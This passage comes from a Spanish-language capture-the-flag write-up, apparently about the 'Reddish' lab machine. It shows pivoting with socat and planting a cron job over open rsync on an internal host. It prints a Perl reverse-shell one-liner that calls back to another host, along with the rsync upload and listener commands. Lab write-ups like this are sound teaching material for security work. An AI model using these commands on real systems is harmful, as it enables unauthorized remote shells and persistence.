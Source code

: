Se a emplear el túnel `socat` desde la máquina `node-RED`, que está comunicada con nuestra máquina de ataque. En nuestra máquina de ataque, estableceremos un servidor con Python en el puerto `5555`, el mismo que definimos en la configuración de la máquina `node-RED` para la redirección del tráfico.

- Socat

![Untitled](/assets/img/Reddish/Pasted image 20240313152426.png)

- Transfiriendo `socat` a `www`

![Untitled](/assets/img/Reddish/Pasted image 20240313152534.png)

La razón para transferir `socat` a la máquina `www` radica en la capacidad que tenemos para cargar archivos en la máquina `172.20.0.3`. Aprovecharemos esta capacidad para enviar una reverse shell a nuestra máquina actual, la `172.20.0.2.

![Untitled](/assets/img/Reddish/Pasted image 20240327213458.png)

Vamos a cargar un archivo `reverse` el cual contendrá una instrucción `cron.d` para que la máquina `172.20.0.3` realice cada minuto![Untitled](/assets/img/Reddish/Pasted image 20240313154032.png)

Subiendo el archivo `reverse` a la máquina `172.20.0.3` en el directorio `/etc/cron.d`

A través de;

```bash
rsync reverse rsync://172.20.0.3/src/etc/cron.d
```

Comprobando que el archivo se haya subido correctamente:

![Untitled](/assets/img/Reddish/Pasted image 20240327214036.png)

Vamos a subir nuestro archivo `reverse.sh` el cual contendrá la instrucción en perl para mandar una reverse shell

```bash
perl -e 'use Socket;$i="172.20.0.2";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Subiendo el `reverse.sh` a través de:

```bash
rsync reverse.sh rsync://172.20.0.3/src/tmp/reverse.sh
```

Comprobando que se subió![Untitled](/assets/img/Reddish/Pasted image 20240313155401.png)
Poniéndonos en escucha a través de `socat`

```bash
./socat TCP-LISTEN:7777 stdout
```

Obteniendo:

![Untitled](/assets/img/Reddish/Pasted image 20240328111354.png)
